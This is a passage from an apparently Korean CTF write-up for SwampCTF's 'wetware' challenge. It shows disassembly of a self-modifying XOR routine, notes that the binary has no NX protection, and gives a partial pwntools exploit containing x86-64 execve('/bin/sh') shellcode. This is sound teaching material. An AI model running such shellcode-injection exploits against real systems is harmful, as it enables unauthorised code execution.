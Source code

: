 ```python
t.interactive()
```





# wetware

```c
.text:0000000000400139 loc_400139:                             ; CODE XREF: .text:0000000000400166↓j
.text:0000000000400139                 mov     eax, 0
.text:000000000040013E                 mov     r10, rsp
.text:0000000000400141                 add     r10, 200h
.text:0000000000400148                 mov     edi, 0
.text:000000000040014D                 mov     edx, 1
.text:0000000000400152                 syscall                 ; LINUX - sys_read
```

어셈 바이너리다 제길 여기서 한글자 씩 입력 값 넣어주는데 널바이트 혹은 개행이 오면 

```c
.text:0000000000400168 loc_400168:                             ; CODE XREF: .text:0000000000400157
.text:0000000000400168                                         ; 
.text:0000000000400168                 mov     rsi, rsp
.text:000000000040016B                 mov     rdi, offset loc_4001CD
.text:0000000000400175                 xor     rcx, rcx
.text:0000000000400178                 xor     rdx, rdx
.text:000000000040017B
.text:000000000040017B loc_40017B:                             ; CODE XREF: .text:000000000040018C
.text:000000000040017B                                         ; 
.text:000000000040017B                 mov     bl, [rsi+rcx]
.text:000000000040017E                 xor     [rdi], bl
.text:0000000000400180                 inc     rdi
.text:0000000000400183                 cmp     rcx, 7
.text:0000000000400187                 jz      short loc_40018E
.text:0000000000400189                 inc     rcx
.text:000000000040018C                 jmp     short loc_40017B
```

이 루틴으로 넘어온다. 0x4001cd ~0x400215안에 있는 바이트코드와 입력값 중 처음 8바이트만으로 xor을 1바이트씩 돌려서 새로운 인스트럭션을 만들어내는데 0x400215까지 돌고나면 0x4001cd로 jmp한다. nx비트가 없기 때문에 간단하게 쉘코드를 실행시킬 수 있다.

```python
from pwn import *

#t = process('./wetware')
t = remote('chal1.swampctf.com',1337)

t.recvuntil(":")
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

ssc = ('''
	add rsp,0x8
	jmp rsp
	nop
	nop
	''')

asm_sc = asm(ssc,arch='amd64')

print disasm(asm_sc,arch='amd64')

p = p64(0x1c47c29065a1ec9a) + sc
p += "\x90"*(0x200-len(p))
```